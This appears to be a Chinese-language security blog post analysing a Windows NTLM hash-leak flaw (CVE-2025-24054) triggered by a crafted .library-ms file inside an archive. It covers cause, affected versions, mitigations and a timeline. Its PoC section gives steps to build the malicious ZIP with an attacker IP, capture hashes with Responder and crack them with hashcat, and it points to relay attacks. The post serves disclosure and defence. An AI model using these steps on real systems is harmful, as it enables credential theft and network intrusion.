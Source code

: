 #  CVE-2025-24054的漏洞深度解析与 PoC 利用指南   
云梦DC  云梦安全   2025-05-29 01:00  
  
关于 CVE-2025-24071（已更新为 CVE-2025-24054）的漏洞深度解析与 PoC 利用指南  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ndxZsFvkmpy6D2vRcMEuia8qiaIicTF15wgIvLxN9IxDRtqc4Riayj9c9nankSBMQEKz9AszpyqCIWztB9wpxtSthw/640?wx_fmt=png&from=appmsg "")  
  
  
​​一、漏洞核心原理与机制​​  
  
​​漏洞成因​​  
  
Windows 资源管理器在处理包含恶意 .library-ms 文件的压缩包（RAR/ZIP）时，会​​自动解析文件内容并触发隐式 SMB 连接​​。  
  
​​文件格式缺陷​​：.library-ms 是基于 XML 的库文件，用于定义网络路径搜索规则。攻击者可构造包含 \\<攻击者IP>\shared 的路径标签，嵌入压缩包中。  
  
​​自动解析机制​​：解压时，资源管理器和索引服务（如 SearchProtocolHost.exe）会主动读取文件元数据，尝试连接攻击者指定的 SMB 服务器，触发 NTLMv2 认证握手。  
  
​​无需用户交互​​  
  
仅需解压文件（无需双击或预览），系统即自动发起 SMB 请求，导致 ​​NTLMv2 哈希泄露​​。  
  
  
​​二、漏洞影响范围与危害​​  
  
​​受影响系统​​  
  
​​Windows 客户端​​：Windows 10/11（21H2、22H2、23H2、24H2 等）。  
  
​​Windows 服务器​​：Server 2012 R2、2016、2019、2022、2025（包括 Server Core 版本）。  
  
​​攻击场景​​  
  
​​横向移动​​：捕获的哈希可用于中继攻击（NTLM Relay）或暴力破解，渗透内网。  
  
​​黑市价值​​：普通用户哈希价值约 1-10 美元，域管理员哈希可达数万美元。  
  
​​三、PoC 利用与复现步骤​​  
  
​​工具准备​​  
  
​​攻击机​​：Kali Linux（安装 Responder 工具）  
  
​​目标机​​：未打补丁的 Windows 系统  
  
​​PoC 脚本​​：GitHub 仓库 提供的 poc.py。  
  
​​生成恶意压缩包​​  
  
运行脚本生成包含恶意 .library-ms 的 ZIP 文件：  
  
python poc.py  
  
Enter your file name: exploit  
  
Enter IP: <攻击机IP>  
  
生成的 exploit.zip 包含指向攻击机 SMB 共享的 XML 配置。  
  
​​触发漏洞与捕获哈希​​  
  
在攻击机启动 Responder 监听：  
```
sudo responder -I eth0 -wvF
```  
  
将 exploit.zip 传输至目标机并解压，观察 Responder 捕获的 NTLMv2 哈希。  
  
​​哈希破解示例​​  
  
使用 Hashcat 暴力破解：  
```
hashcat -m 5600 captured_hash.txt wordlist.txt --force
```  
  
8 位纯数字密码可在数秒内破解，12 位混合密码需数小时。  
  
​​四、防御与缓解措施​​  
  
​​官方补丁​​  
  
安装 2025 年 3 月及之后的 Windows 累积更新（如 KB5053606）。  
  
​​网络层防护​​  
  
​​阻断出站 SMB 流量​​：防火墙禁止 TCP 445 端口出站。  
  
​​禁用 IPv6​​：部分攻击利用 IPv6 协议渗透，需关闭非必要协议。  
  
​​用户行为规范​​  
  
避免解压不明来源压缩包，优先使用 7-Zip 等第三方工具查看内容（不触发自动解析）。  
  
强制使用长密码策略（如 16 位混合字符）降低哈希破解成功率。  
  
​​五、时间线与更新​​  
  
​​2025-03-18​​：漏洞细节与 PoC 公开。  
  
​​2025-03-25​​：微软更新漏洞编号为 ​​CVE-2025-24054​​[^更新说明]。  
  
​​2025-05-07​​：在野利用确认，威胁组织 "Krypt0n" 售卖漏洞利用工具。  
  
​​六、扩展研究（技术深挖）​​  
  
​​流量分析​​  
  
Wireshark 捕获显示，解压操作触发 SMB2 Negotiate Protocol Request 和 NTLMSSP_AUTH 数据包，明确暴露认证流程。  
  
​​横向攻击手法​​  
  
​​NTLM 中继​​：将哈希中继至 LDAP/EWS 服务，提升权限或窃取数据。  
  
​​强制认证触发​​：结合 PrinterBug 或 PetitPotam 漏洞扩大攻击面。  
  
​​总结​​  
  
CVE-2025-24054 暴露了 Windows 文件解析机制的深层信任问题。企业需结合​​补丁管理​​、​​网络隔离​​与​​用户教育​​构建防御体系，同时关注哈希中继等衍生风险。安全研究人员可通过分析流量特征（如自动触发的 SearchProtocolHost.exe 进程）检测潜在攻击。  
  
​​注​​：本文所有技术细节仅限防御研究，严禁用于非法攻击。漏洞编号以微软最新公告为准。  
  
poc：  
  
https://github.com/0x6rss/CVE-2025-24071_PoC  
  
  
